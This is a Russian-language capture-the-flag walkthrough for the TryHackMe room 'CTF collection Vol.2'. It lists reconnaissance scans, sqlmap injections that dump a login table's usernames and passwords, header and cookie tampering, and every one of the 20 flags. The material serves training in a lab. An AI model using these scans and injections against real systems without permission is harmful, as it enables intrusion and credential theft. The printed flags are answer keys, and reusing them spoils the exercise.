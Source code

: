 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [CTF collection Vol.2](https://tryhackme.com/r/room/ctfcollectionvol2) 

Всего 2 задания:
## Задание 1
Добро пожаловать, добро пожаловать и добро пожаловать в очередную коллекцию CTF. Это вторая часть серии коллекций 
CTF. К вашему сведению, вторая серьезная часть фокусируется на веб-испытании. Всего в коробке можно найти 20 
пасхальных яиц, также известных как флаги. Давайте посмотрим, насколько хороши ваши навыки CTF.

Теперь запустите машину и соберите яйца!

Предупреждение: в задании есть изображения припадков и фон. Если вы чувствуете себя некомфортно, попробуйте удалить 
фон в теге <style>.

Примечание: все флаги задач имеют формат, если не указано иное.THM{flag}

### Ответьте на вопросы ниже
Факт: Яйца содержат белок самого высокого качества, который вы можете купить.
```commandline
Ответ не нужен
```

## Задание 2
Отправьте все ваши пасхальные яйца прямо сюда. Найду все!

### Ответьте на вопросы ниже
Пасха 1
```commandline
nmap -sSCV <IP>
gobuster dir -u http://<IP> -w directory-list-2.3-medium.txt -x php,html,txt
curl -s http://<IP>/robots.txt
echo "45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d" | xxd -r -p
```
```commandline
THM{4u70b07_r0ll_0u7}
```
Пасха 2
```commandline
urldecode $(echo "VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=" | base64 -d) | base64 -d | sed "s/\ //g" | base64 -d | sed "s/\ //g" | base64 -d
curl -s http://<IP>/DesKel_secret_base/
```
```commandline
THM{f4ll3n_b453}
```
Пасха 3
```commandline
curl -s http://<IP>/login/
```
```commandline
THM{y0u_c4n'7_533_m3}
```
Пасха 4
```commandline
sqlmap.py -r login.xml --current-db
sqlmap.py -r login.xml -D THM_f0und_m3 --tables
sqlmap.py -r login.xml -D THM_f0und_m3 -T nothing_inside --columns
sqlmap.py -r login.xml -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"
```
```commandline
THM{1nj3c7_l1k3_4_b055} 
```
Пасха 5
```commandline
sqlmap.py -r login.xml -D THM_f0und_m3 -T user --columns
sqlmap.py -r login.xml -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"
curl -s -d "username=DesKel&password=cutie&submit=submit" -X POST http://<IP>/login/ | grep Easter
```
```commandline
THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql}
```
Пасха 6
```commandline
curl -s 10.10.141.149 -D header.txt
cat header.txt 
```
```commandline
THM{l37'5_p4r7y_h4rd}
```
Пасха 7
```commandline
curl -s http://<IP>/ | grep "Who are you"
curl -s --cookie "Invited=1" http://<IP>/ | grep "easter 7"
```
```commandline
THM{w3lc0m3!_4nd_w3lc0m3}
```
Пасха 8
```commandline
curl -s http://<IP>/ | grep "Safari"
curl -s --user-agent "Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1" http://<IP>/ | grep "Easter 8"
```
```commandline
THM{h3y_r1ch3r_wh3r3_15_my_k1dn3y}
```
Пасха 9
```commandline
curl -s http://<IP>/ready/
```
```commandline
THM{60nn4_60_f457}
```
Пасха 10
```commandline
curl -s http://<IP>/free_sub/
curl -s --referer "tryhackme.com" http://<IP>/free_sub/
```
```commandline
THM{50rry_dud3}
```
Пасха 11
```commandline
curl -s http://<IP>/ | grep menu -B 1 -A 10
curl -s -d "dinner=salad" -X POST http://<IP>/ | grep menu -B 1 -A 12
curl -s -d "dinner=egg" -X POST http://<IP>/ | grep menu -B 1
```
```commandline
THM{366y_b4k3y}
```
Пасха 12
```commandline
curl -s http://<IP>/ | grep "\.js"
curl -s http://<IP>/jquery-9.1.2.js
```
```commandline
THM{h1dd3n_j5_f1l3}
```
Пасха 13
```commandline
curl -s http://<IP>/ready/gone.php
```
```commandline
THM{1_c4n'7_b3l13v3_17}
```
Пасха 14
```commandline
curl -s https://<IP> | grep Easter > data.txt
more data.txt
# decode base64
```
```commandline
THM{d1r3c7_3mb3d}
```
Пасха 15
```commandline
curl -s http://<IP>/game1/
curl -d "answer=ABCDEFGHIJKLMNOPQRSTUVWXYZ" -X POST http://<IP>/game1/
curl -d "answer=abcdefghijklmnopqrstuvwxyz" -X POST http://<IP>/game1/
curl -d "answer=GameOver" -X POST http://<IP>/game1/
```
```commandline
THM{ju57_4_64m3}
```
Пасха 16
```commandline
curl -s http://<IP>/game2/
curl -d "button1=button1&button2=button2&button3=button3" -X POST http://<IP>/game2/
```
```commandline
THM{73mp3r_7h3_h7ml}
```
Пасха 17
```commandline
bin -> dec -> hex -> ascii
b = '100010101100001011100110111010001100101011100100010000000110001001101110011101000100000010101000100100001001101011110110110101000110101010111110110101000110101010111110110101100110011011100000101111101100100001100110110001100110000011001000011001101111101'
d = int(b, 2)
h = hex(d)[2:]
bytes.fromhex(h).decode('ASCII')
```
```commandline
THM{j5_j5_k3p_d3c0d3}
```
Пасха 18
```commandline
curl -s -H "egg: Yes" http://<IP>/ | grep -i "Easter 18"
```
```commandline
THM{70ny_r0ll_7h3_366}
```
Пасха 19
```commandline
wget http://<IP>/small
file small.png
```
```commandline
THM{700_5m4ll_3yy}
```
Пасха 20
curl -s http://<IP>/ | grep "easter 20"
curl -s -d "username=DesKel&password=heIsDumb" -X POST http://<IP>/ | grep -A1 "easter 20"
```commandline
THM{17_w45_m3_4ll_4l0n6}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)